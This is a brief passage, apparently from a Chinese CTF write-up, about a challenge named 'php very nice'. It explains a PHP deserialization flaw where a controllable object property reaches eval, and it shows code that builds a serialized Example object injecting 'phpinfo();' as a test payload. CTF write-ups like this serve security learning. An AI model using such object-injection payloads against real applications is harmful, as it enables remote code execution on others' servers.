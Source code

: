 得到flag

------

### php very nice

反序列化

将源码复制到phpstorm中

![image-20240125173116020](照片/image-20240125173116020.png)

其中eval的参数是可控的

我们可以将其进行更改，然后将其传入a中

我们构建一个PHP info的页面进行测试

```
 $a = new Example();
 $a->sys="phpinfo();";
 echo "\n";
 echo serialize($a);
 
 O:7:"Example":1:{s:3:"sys";s:10:"phpinfo();";}
 
```
